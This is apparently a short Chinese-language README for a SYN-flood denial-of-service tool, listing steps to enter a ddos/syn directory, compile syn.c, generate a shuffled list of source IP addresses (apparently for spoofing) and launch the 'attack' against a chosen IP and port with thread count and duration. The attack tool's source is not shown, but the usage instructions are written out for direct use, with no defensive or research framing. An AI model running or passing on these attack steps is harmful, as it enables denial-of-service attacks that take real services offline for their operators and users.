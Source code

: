 ### 目录
    cd ddos/syn

### 编译
    gcc syn.c -o syn -pthread

### 生成源ip
    python3.8 main.py && shuf cn_syn_ip.txt


### 攻击
    ./syn ip port cn_syn_ip.txt 25 60
